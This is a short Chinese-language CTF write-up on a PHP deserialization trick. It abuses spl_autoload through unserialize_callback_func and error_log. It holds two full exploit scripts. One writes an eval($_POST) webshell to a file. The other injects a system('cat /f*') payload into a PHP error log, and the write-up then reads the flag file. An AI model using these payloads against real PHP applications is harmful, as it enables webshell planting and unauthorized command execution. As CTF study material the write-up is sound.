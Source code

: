 考了一个 php 反序列化的小 tirck

> **spl_autoload**  
>
> 它可以接收两个参数，第一个参数是$class_name，表示类名，第二个参数$file_extensions是可选的，表示类文件的扩展名,如果不指定的话，它将使用默认的扩展名.inc或.php 
>
> 通过spl_autoload来自动加载未定义的类settings，会默认加载当前目录下，以settings类名为文件名，php或者inc为后缀的文件

因为`__wakeup`读取的是数组, 先数组反序列化写🐎, 然后加载一个空类 settings 使其以 php 形式调用 settings.inc 里面的写🐎语句, 建立 exp.php 如下:

```php
<?php
class settings {

}

//highlight_file(__FILE__);
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
            'display_errors'=>'On',
            'allow_url_fopen'=>'On',
            'unserialize_callback_func'=>'spl_autoload'
        );
        $this->params = serialize(new settings());
/*        $this->params=serialize(array("<?php file_put_contents('ricky.php', '<?php eval(\$_POST[1]);?>');"));*/
    }
}

$a = new main();
echo urlencode(serialize($a));
```

访问根目录 `cat /flag_is_here`

### 非预期 trick

exp.php

```php
<?php
class A{
}
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
        'error_log'=>'yu.php',
        'unserialize_callback_func'=>'<?php system("cat /f*");?>',
        'html_errors'=>false
        );
        $this->params=serialize(new A());      
    }
}
$a=new main();
echo serialize($a);
```
